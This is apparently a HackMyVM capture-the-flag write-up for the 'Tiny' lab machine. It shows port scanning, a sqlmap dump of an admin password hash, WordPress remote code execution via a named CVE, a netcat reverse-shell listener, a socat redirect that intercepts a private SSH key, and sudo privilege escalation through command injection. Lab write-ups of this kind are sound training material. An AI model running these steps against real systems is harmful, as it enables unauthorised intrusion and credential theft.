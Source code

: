 ```yaml
---
title: Tiny - HackMyVM Writeup
date: 2024-02-11
categories:
  - Writeups
tags:
  - Linux
  - Sql_injection
  - Wordpress
  - Enumeration
  - PrivEsc
---
```


# Arp-scan 

 Detecting the IP of the machine

```bash
192.168.1.97	08:00:27:ee:8a:18	PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
root@kali ~ [SIGINT]# nmap  -sC 192.168.1.97 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 06:17 EST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 91.04% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.76% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.44% done; ETC: 06:17 (0:00:00 remaining)
Nmap scan report for tiny (192.168.1.97)
Host is up (0.0012s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 dd:83:da:cb:45:d3:a8:ea:c6:be:19:03:45:76:43:8c (ECDSA)
|_  256 e5:5f:7f:25:aa:c0:18:04:c4:46:98:b3:5d:a5:2b:48 (ED25519)
80/tcp   open  http
|_http-generator: WordPress 6.3.1
|_http-title: Blog
| http-robots.txt: 15 disallowed entries 
| /wp-admin/ /cgi-bin/ /private/ /temp/ /backup/ /old/ 
| /test/ /dev/ / /misc/ /downloads/ /doc/ /documents/ 
|_/restricted/ /confidential/
8888/tcp open  sun-answerbook
MAC Address: 08:00:27:EE:8A:18 (Oracle VirtualBox virtual NIC)
```

We can see that 80, 22 and 8888 ports are opened

# Add Hosts

![](/assets/img/tiny/website.png)

We are able to see that the website is loading contents in domain tiny.hmv, and hence we need to add the domain into /etc/hosts , so that it can resolve properly (virtual hosting).

```shell
echo "192.168.1.97  tiny.hmv" >> /etc/hosts
```

# Url Enumeration

As usual, firstly, we will check whether there is robots.txt

From robots.txt:

```shell
# Additional sitemap references
Sitemap: http://tiny.hmv/sitemap.xml
Sitemap: http://wish.tiny.hmv/sitemap.xml
```

We are able to find that there is a subdomain which is called "wish.tiny.hmw"

# Sql injection

Check whether the website is vulnerable to sqli(sql injection)

![](/assets/img/tiny/burp.png)

It appears that Sqli is existed on the website and there we use sqlmap to enumerate the user and the password in the database:

```shell
sqlmap -r req.req --batch -D wish_db -T admin -C id,password,username --dump 
```

Results:

```shell
Database: wish_db                                                         
Table: admin
[1 entry]
+----+--------------------------------------------+----------+
| id | password                                   | username |
+----+--------------------------------------------+----------+
| 1  | 8df4387dd1598d4dcf237f9443028cec           | umeko    |
+----+--------------------------------------------+----------+

```

*Not going to show the decrypted password, as the content of the decrypted password is offensive*

# Shell 

Logging into the website and using wpscan, we can detect that the website is vulnerable to  [CVE-2023-5201](https://github.com/advisories/GHSA-52wg-h24c-3wgr), which we can do Remote Code Execution.

![](/assets/img/tiny/wordpress_cve.png)

We listen to port 1234 by using nc (netcat) and get the shell

```bash
nc -nlvp 1234
```

Upgrading simple shells to fully interactive TTYs

```shell
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
```

Referring to the port scanning result earlier, we notice that port 8888 is opened as well and yet to be used, hence we can make a smart assumption.

```shell
ss -tulnp
ps -elf 
```

![](/assets/img/tiny/ps.png)

![](/assets/img/tiny/ss.png)

We can see that TinyProxy is running

By accessing  /etc/tinyproxy/tinyproxy.conf, we can the configurations

```shell
cat /etc/tinyproxy/tinyproxy.conf | grep -v "#"
```

![](/assets/img/tiny/config.png)

From that, we can see that port 1111 is opened, and all traffic is being directed to "localhost:1111"

If all the traffics is being directed to port 1111, we can make an assumption and listen to port 1111 by using "nc", from the response we can see that "Get http://127.0.0.1:8000/id_rsa".

Hence we can do a redirection of traffic from port 1111 to 8000 by using "Socat" 

```
socat -v tcp-listen:1111;reuseaddr tcp:localhost:8000
```

and hence we are able to get the private key, saving and naming it as "id_rsa"

![[/assets/img/tiny/private_key.png]]

granting "id_rsa" with 600 permission and we connect user vic by using "id_rsa" via ssh

```shell
chmod 600 id_rsa
ssh -i id_rsa vic@127.0.0.1
```

# Root Access

 After accessing user "vic", we are able to get our first flag.

![](/assets/img/tiny/user_flag.png)

By doing sudo -l, we can see that we can use sudo command to execute /opt/car.py

![](/assets/img/tiny/permissions.png)

We see what it is contained in "car.py" file and we can see "pydash lib", which we can find a Command Injection vulnerability  

```shell
cat car.py
```

![](/assets/img/tiny/car_py_content.png)

By doing this, we are able to get Root Permission and get the flag

![](/assets/img/tiny/privilege escalation.png)
